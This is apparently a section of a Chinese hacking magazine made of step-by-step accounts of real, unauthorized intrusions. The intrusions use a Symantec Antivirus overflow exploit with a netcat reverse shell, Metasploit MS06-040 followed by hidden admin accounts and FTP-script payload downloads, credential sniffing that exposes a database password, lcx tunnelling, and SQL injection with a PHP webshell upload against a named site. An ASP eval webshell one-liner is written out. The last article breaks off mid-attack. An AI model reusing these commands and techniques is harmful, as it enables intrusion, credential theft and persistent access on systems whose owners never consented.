







> **编辑点评：**  
> 这款 blog 还是有不少人在用的，加上这个漏洞的利用实在是方便，利用作者附带的那个 EXP 可以轻松地搞定目标，使用者请注意及时修补。另外分析了下作者附带的 EXP 的代码，似乎这个漏洞的产生还比较复杂哦，似乎对于记录的 IP 没有过滤导致我们可以伪造利用代码，进行写文件操作。与这个漏洞的利用相比，SQL 等还是比较复杂的，感兴趣的朋友可以好好分析一下。

> **栏目首语：**  
> 西线无战事栏目养了一只鸡，没有想到最近下了两个蛋，一个圣诞一个元旦，lcx 在这里还是祝大家节日快乐。新的一年，我们仍然会抱着宁缺勿滥的宗旨，给大家及时送上最新最 in 最适用的文章。不过，还在这里呼吁大家多多投稿，给出自己的秘籍、心得，独乐乐不如众乐乐。

## Symantec Antivirus 远程栈溢出漏洞入侵实战

myvbscript

**从本文中你可以学到：**  
Symantec 远程溢出的工具用法以及实战流程

昨天从网上下载了一个工具，标题都是“Symantec remote management stack buffer overflow exploits for Win32/x86”。于是在百度和 google 搜索这个漏洞的资料，原来是 2006 年 5 月份出的漏洞，国内把它翻译成 Symantec Antivirus 远程栈溢出漏洞。这个漏洞的原理大体是：在 Symantec Client Security 3.1、Symantec Client Security 3.0、Symantec AntiVirus Corporate Edition 10.1、Symantec AntiVirus Corporate Edition 10.0 版本中的 Rtvscan.exe 文件里的 COM_FORWARD_LOG（0x24）命令处理器没有正确地使用 strncat，允许任意数据覆盖 0x180 字节的栈缓冲区，从而造成 Symantec Antivirus 远程管理接口远程栈溢出漏洞。当然更多漏洞细节，你可以看 http://www.nsfocus.net/vulndb/8860 或者是 http://www.securiteam.com/windowsntfocus/5OP0B151VI.html。看了这些公告后，也请有漏洞的主机快根据公告打补丁。我只是着重来讲一下入侵流程。

命令的用法格式如下：

- C:\s.exe -t
- show helps:
- Options:
  - -h - prints this help //打印这个命令的帮助
  - -r - which box you want hacked? (default: name returned by hostname function) //你需要指定的入侵 IP
  - -p - service port num - users connect to it (default: 2976) //默认端口是 2976
  - -l - listen host, use nc please //用 NC 监听本机 IP
  - -d - listen port //NC 监听的本机端口
  - -e - pop pop ret opcode address. //这个我表达不好，不知做什么用，反正我也没用到它
  - -t - try the knowns targets: (0 to list) //用 s.exe -t 0 可以列出不同系统的缓冲区内存覆盖地址。如果知道目标系统可以准确判断，从而加上 -t num 等参数。





大家应当都能看得懂的。这里我为了成功率高点，用它的反向溢出方法。当然入侵就要有目标了，先拿扫描器扫 2976 这个端口。我用的是 WinEggDrop 写的扫描器。用法如下：scan.exe TCP 67.164.1.1 67.164.254.254 2976 512。意思是用 512 线程扫 67.164 这个 B 段地址。经过一段时间后，共扫出 4 台开 2976 这个端口的，我一一试了只成功了一台。看样子一是开这个端口的机器少，二是溢出成功率也并不怎么高。我的本机的外网的 IP 地址是 222.129.xxx.xxx，但是我在内网，所以我要把路由上的端口（我用的是 21）映射到本机，然后用 nc -vvlp 21 监听。入侵的目标是 xxx.xxx.xxx.209，于是用法便是 s -r xxx.xxx.xxx.209 -l 222.129.xxx.xxx -d 21，如图 1 所示。

成功后的情形如图 2 所示，可以看到入侵成功后进入的是 Symantec Antivirus 目录。这个漏洞溢出后是系统权限的，并且可以反复溢出的，就是说你溢出的 shell 掉的话，你仍然可以再溢出一次。



入侵成功后，自然可以上传后门来控制它了。由于这台机器本身自带的 pcanywhere，并且开了 5631 端口。所以我准备下载它的 cif 文件来破密码。上传下载有很多办法，不过我用了一个简便的方法。因为这台机器有 web，所以我就 echo ^<%eval request(chr(35))%^> > c:\inetpub\wwwroot\1.asp，然后用海阳 2006cs 客户端来连接。在 asp 木马页面下载了它机器里后缀为 cif 和 chf 的文件名后（这些文件存在 Documents and Settings\All Users\Application Data\Symantec 子目录下，大家换个目录翻下去就找到了），用 pcanypass 破出密码，就可以用 pcanywhere 连上它了。不过屏幕锁定的话，你要提前在溢出的 shell 里加个用户。最终结果如图 3 所示。

[文章里的工具 scan.exe、s.exe 已收录在本期光盘]

### 作者点评：

入侵流程写得很清楚。但是文章入侵成功后里边的细节稍微不足。估计有的读者基础不好，就不太清楚，如何在路由上将外网端口映射到内网，还有如何下载 cif 文件？但是在部分读者眼里，如果把这些也写上去，就太啰嗦了，这是个两难的问题。

## 窥探防火墙之后的数据库

从本文中你可以学到：
一些常用黑客工具的基本用法。

Sheldon

偶们学院的网站是请外面的商业公司做的，价格不菲，用 .net 开发的，很早就想拿下收藏研究之用了，但是一直苦于没有机会。常见的注入、上传等都试过，没成功，而且手上又没有源码，也不知道有什么漏洞，不开源就是不爽。听说 MS06-040 最近挺火的，偶想着也应该试着从系统漏洞下手了，于是便有了下文。

首先拿 HSCAN 扫描一下服务器开放的端口，开放了 21、80、139、445、3389，而且所有的系统用户都被枚举出来了，如图 1 所示。可以肯定这是一台 WIN2000 的服务器了。因为 WIN2000 的默认安装允许任何用户通过空会话（空用户名及空口令）得到系统所有账号和共享列表。既然开着 445 端口而且系统是 WIN2000，所以用 MS06-040 溢出很有可能成功。说干就干，先装上 Metasploit Framework，刚装上得先运行 MSFUPDATE 升级一遍，不要没有 ms06_040 的 exp。当看到出现图 2 的画面时，这就意味着已经装好了。




ms06_040 的溢出过程也是比较简单的，我简单说一下步骤，因为《非安全》杂志前几期已有很详细介绍此漏洞的文章了，大家可以参阅着看下（为照顾比我更菜的小鸟，命令部分加有简单说明）。

首先，打开控制台 MSFConsole，选择要使用的 exp，我们用的是 netapi_ms06_040，命令如下：use netapi_ms06_040；接下来选择溢出方式，我在这里用的是反弹一个 cmd shell：set PAYLOAD win32_reverse，设置要溢出的 IP：set RHOST 202.***.***.29；设置本机 IP：set LHOST 222.***.***.118；设置目标 IP 的操作系统类型：0 为自动判断：set TARGET 0，最后输入 exploit 溢出即可，如图 3 所示（注意 PAYLOAD、RHOST、LHOST、TARGET 需要大写）。

因为这台服务器的 3389 终端服务器已经开了，所以我们只需要添加个管理员账号然后登录即可，命令如下：net user caomusag$ 1234 /add（添加一个用户名为 caomusag$、密码为 1234 的账号），net localgroup administrators caomusag$ /add（将账号 caomusag$ 提高至管理员组）。

> 作者贴士：
> 但是如果碰到没有开 3389 的服务器怎么办呢？网上介绍的一般都是采用 tftp 上传 3389.exe 或者木马上去，但是在 WIN2000 中默认是没有安装 tftp 服务的，只有在使用 RIS 服务的时候才会安装该服务，也就是说我们没法采用网上的经典上传大法了。这里介绍一种比较简单实用的方法，就是用 FTP 命令。因为 FTP 协议的问题，我们不能在得到的 SHELL 里直接登录我们的 FTP 服务器去下载东西，这时只需写个 ftp.txt 的文件来向 FTP 服务器提交就可以了。在我们得到的 SHELL 里写入以下代码：
>
> ```
> echo open 服务器ip [端口]>>ftp.txt
> echo username>>ftp.txt
> echo password>>ftp.txt
> echo get sample.exe>>ftp.txt
> echo bye>>ftp.txt
> ```
>
> 其中服务器 ip 就是你想传的文件所在 FTP 服务器的 IP 地址；username 就是你登录 FTP 的账号；password 就是你的密码；sample.exe 就是你想下载的程序名字，最后一个 bye 是退出 FTP 服务。写完后执行 ftp -s:ftp.txt 就可以下载到我们需要的文件了，这时你想开 3389 或者直接种个反弹的木马都行。如图 4 所示，我从别的机子上下的一个 aio.exe 到肉鸡上。


刚才说到加个管理员账号登录到肉鸡，等我满心欢喜地把网站程序和数据库拖回来的时候，网站死活架不起来，最后才发现数据库是其他系统的，真正的网站数据库不在里面，真是郁闷哦。看来网站的数据库可能在另外一台服务器上，查看下载下来的网页里的信息也没有发现什么数据库连接字符串之类的，这可真把我郁闷坏了，搞了大半天关键的数据库没有到手。沉思了一会儿突然想到，网站显示新闻的时候一定要从数据库读取信息的，我们既然已经有了 WEB 服务器的权限，通过嗅探一定可以得到连接数据库的信息。于是马上开工，在肉鸡上装上 Cain，嗅探 TDS 服务，不一会便嗅探出了数据库服务器的信息，如图 5 所示，数据库 IP 为 202.***.***.28（我在外网扫描整个网段的时候并没有发现这台主机），连接的权限为 SA，密码为 jgydatauser。接下来我就用混客 SQL 连接工具连接了那台服务器，成功连接，如图 6 所示。选择上传文件，我用的是 Super-SC.exe，这个工具对于开 2000、2003 的终端是很有效的。紧接着再运行这个工具，命令如下：`c:\sc.exe -s 3389 -r`。


其中 sc 是我上传后改名的 SuperSC.exe，-s 后紧跟想要开启的终端端口，-r 是让服务器重启（图 7）。一会儿再运行此命令就提示连接失败了，看来服务器重启了，HOHO。


过了几分钟后我用 WEB 服务器远程连接 202.***.***.28 这台数据库服务器，结果显示超时……莫非 3389 没有开启？我重新连接它的 SQL，运行命令查看一下端口 netstat -an，3389 开启了（图 8），为什么连不上呢？莫非有防火墙？马上又运行命令 ipconfig，结果出来了，这台服务器有两个 IP，192.168.2.20 和 192.168.100.2，网关为 192.168.100.1（图 9），看来这个 192.168.100.1 有可能是个硬件防火墙了。这下又郁闷了，我没有防火墙的密码，再说就算有密码也不会在命令行下设置让 202.***.***.29 访问数据库服务器的 3389 端口呀。想了很久，偶然想起了最近看到光芒果写过的一篇文章，写的是对几款端口映射工具的比较。对呀，用端口映射把 3389 映射到 WEB 服务器的某个端口上去，再让 WEB 服务器转发一下不就可以访问了吗？思路有了，看偶来操作。首先将 AIO.exe 和 LCX.exe 上传到数据库服务器上去。为什么上传 AIO.exe？不是只端口映射吗？嘿嘿，这个 AIO.exe 会有用途的，等会看我说明。

在数据库服务器上执行 `c:\lcx.exe -slave 202.***.***.29 51 127.0.0.1 3389`（将本机的 3389 端口映射到 WEB 服务器上的 51 端口）（图 10）。

在 WEB 服务器上执行：`c:\lcx.exe -listen 51 5261`（将本机 51 端口接收到的数据通过 5261 端口转发出去）。当出现如图 11 所示的画面后即代表转发成功，转发时的效果很酷哦，你会看到不断地有数据被接受和被转发，画面不停地滚动，相当有成就感的，HOHO（图 12）！


所以我们现在只需连接 WEB 服务器的 5261 端口即可连接到数据库的终端了。至此网站数据库终于成功拿下，外带获得了两台服务器。

最后说下为什么要用到 AIO.exe，因为 AIO 里集成了两个工具 pslist 和 pskill。SQL 连接工具在回显命令的时候，是把命令行执行完后显示出来的，而映射端口是不断接收和转发数据的过程，除非你主动结束进程，否则它是不会有任何结果的。所以我们的 SQL 连接工具一旦运行了 `c:\lcx.exe -listen 51 5261` 后就会进入假死状态，返回不了任何信息。而到最后，数据库服务器上始终会留有一个 lcx.exe 的进程，一不小心就会被细心的管理员发现。所以我们要自己把它了结，先运行 `AIO -pslist` 查看出 lcx.exe 的 PID，然后用 `AIO -pskill PID值` 来结束掉 lcx.exe 的进程。


在文章的最后我想说一句，后来我发现与数据库服务器在同一交换机下的机子都只能访问到它的 1433 端口，我自己的电脑甚至连 1433 都看不到，但是这台数据库服务器仍然沦陷了，说明了防御不能只简单依靠硬件防火墙、杀毒软件等等，不断提高整体的安全意识才是唯一的出路（再附一幅进入硬件防火墙后的截图，默认密码……见图 13）。本文只是简单地运用了一下远程溢出、嗅探、端口映射、密码猜解等基础知识，并无任何出彩之处，高手请飞过。欢迎大家一起讨论，论坛 ID：Sheldon。

> [文章中用到的工具 cain、sqltools.exe、lcx.exe、aio.exe 都已收录在本期光盘。]

## 编辑点评：

常用的系统入侵手法：扫描 -> 溢出 -> 嗅探 -> 数据转发，菜鸟们多多实践也就都会掌握了，熟能生巧。不过说点外话，这个 lcx.exe 是我编译红盟的 htran 的 v1.0 版本，加了个汉字注释而已，没有想到网上流传得这样广，好像只要是端口转发的文章都要提到它，每次看到别人用它我都感到汗颜。什么时候能自己写出这样优秀的工具，才算是一个合格的黑客了吧。

## 友情检测

### “中国教育信息网”

心雨

从本文中你可以学到：
- PHP+MYSQL 的基本手工注入操作
- 上传附件拿 WEBSHELL 的方法

中国教育信息网（www.e21.cn）是国内比较有名的教育信息网站，最近对该网站进行了一些检测，但其安全性却不怎么样。

网站采用的 PHP+MYSQL 结构，既然是动态网站那就要看看能不能注入，在提交变量的地方比如“xx.php?id=123”之类的地方后边加一个“'”来初步检测，再用“and 1=1”和“and 1=2”来进一步确定。整个网站提交变量的地方基本上都没做过滤，随便都可以注入。如“http://www.e21.cn/schoollist.php?provinceid=6”在后面加上“'”提交后显示：

```
Error: Unable to perform query: select id,user_realname from admin where user_type=4 and province=6 and school_type=0 and is_sub=0 and user_pass=1 order ...... 
```

可以看到“'”在数据查询语句中已经变成“\'”，再试试“and 1=1”提交，页面返回正常，提交“and 1=2”返回不同的页面，很明显可以注入。接着判断一下 MYSQL 的版本，提交 and ord(mid(version(),1,1))=52（52 是 4 的 ASCII 值，要是返回正常就说明数据库版本是 4.0 以上的，那么就可以使用 UNION 来查询），返回结果正常，说明可以用 UNION 来查询。从刚才提交“'”中可以知道存在一个表名为“admin”的表和“id”、“user_realname”两个字段，提交“and 1=2 union select 1,2/*”返回信息如图 1 所示。


提示出错，看来提交的语句有问题，把语句改一下，“and 1=2 union select 1,2/*”，用“/*”注释掉后面的语句，提交后没返回出错信息并暴出字段，如图 2 所示。


既然已经知道一个表名，那就直接猜解密码。在出错提示中可以看到一个名为“user_pass”的字段，“user_pass”莫非就是密码？直接提交“and 1=2 union select 1, user_pass from admin/*”看一下返回的内容！


返回的内容！图 3 中没有显示出密码而是数字 1，看来不是存放密码的字段。经过好一会儿的测试终于找到账号字段名和密码字段名，分别是“user_name”和“user_pwd”。先来看账号，提交“and 1=2 union select 1, user_name from admin/*”显示结果如图 4。


显示了 N 多的账号，再看看密码，提交“and 1=2 union select 1, user_pwd from admin/*”后，页面显示如图 5。


密码和账号都暴露出来了。虽然都是一一对应的，但是看着还是乱。应该一个一个地看能够比较清楚，提交“and 1=2 union select 1, user_name from admin where id=1/*”和“and 1=2 union select 1, user_pwd from admin where id=1/*”，这样在注入语句后加上一个“where id=1”就只显示数据库中 ID 为 1 的内容了，如图 6、图 7 所示。


既然得到账号和密码就要找登录的地方。那么多账号应该是网站会员，网页的右上方正好有一个用户登录的连接，点击连接后来到登录页面，如图 8 所示。

登录的地方还可以选择登录的类型，怎么觉得那个账号“jyb”像是“教育部”的简写，赶紧用账号“jyb”、密码“1234”登录！结果登录成功，如图 9 所示。


成功进入管理后台，似乎有点社会工程学的味道，要知道密码是 1234，还不如直接试密码！在后台添加新闻的地方可以上传图片，试着上传一个 PHP 木马，结果提示只能上传图片格式的文件，如图 10 所示。


看来从后台拿到 WEB 权限是不可能的了。还是先给管理员留个信说明网站有漏洞，后台正好可以发信，就发给自己的账号一封信，下次管理员登录就可以看到了。我打开“发信息”页面的时候，眼前的页面给了我新的希望，如图 11 所示。


“粘贴附件”可以上传附件？要是上传附件没限制格式的话……点击“粘贴附件”，显示如图 12 的页面。


在本地找了一个 PHP 木马粘贴，再点完成。如果没有杀毒的话，木马应该上传成功了，结果如图 13。


然后再随便填写点什么，点击提交！再去“收件箱”查看那封信，点击那个“附件 1”后终于弹出了熟悉的页面，一个 webshell 拿到了，结果如图 14。


从这次入侵可以看到目前国内网络安全防范意识还有待提高，至少像用 1234 这样简单的密码和存在 SQL 注入是不应该有的！

## 编辑点评：

作者的运气比较好，注入直接出错暴出了表名。不过在猜测列个数的时候，没有写得很完整，就是 and 1=2 union select 1,2,3...... 的时候如何快速准确判断 select 的长度。和作者同感，对这个站的安全性感到吃惊。


## 新年前夕

## 之跨高校图书馆之旅

Morephaze[D.S.G]

从本文中你可以学到：
- 阿江统计系统拿 webshell 的方法

都用了这系统，估计这系统也挺受欢迎的吧，那我们就从网上找。

新年之际总想给大家写点东西，前几天 MAX0301 说帮他弄套代码，我说网上不是大把吗？后来拿他没辙了，这话还是接了下来，谁让他上次帮我撰写了几篇散文章呢？这次他让我弄的是一个叫作《爱迪科森网上报告厅》的商业代码，小子真会给我找麻烦，不过这代码我曾经在我们学校的图书馆看过，图书馆的 4 号服务器我还没进去过，这次就试试从我们学校的图书馆入手。

### 二、跨校之旅

在百度上搜了一下“网上报告厅”，出了一堆结果，其中有一个是桂林医学院的图书馆，就挑它了（图 2）。

在图中左下方有一处写着“爱迪科森网上报告厅视频点播系统”，就是它了。我们的路线是从别的地方进去把这系统打包回来。我们打开图书馆的公告栏上的链接：http://202.193.194.4/news/Play.asp?id=170 and 1=1，加上了 and 1=1 居然返回正常，如图 3 所示。

### 一、正面突破

先检测注入点看看，打开一个报告的视频连接，提交如下：
http://192.168.169.4/adksvod/info.asp?vodid=22601，返回如图 1 的提示。

当提交 and 1=2 时返回空白页面，这下有点希望了，拿出 nbsi2 来跑吧（都讲究自动化了），特征码字符就填“超星”，这样就能跑出我们要的东西了，后台也不难找，直接就是 news/login.asp，结果如图 4。

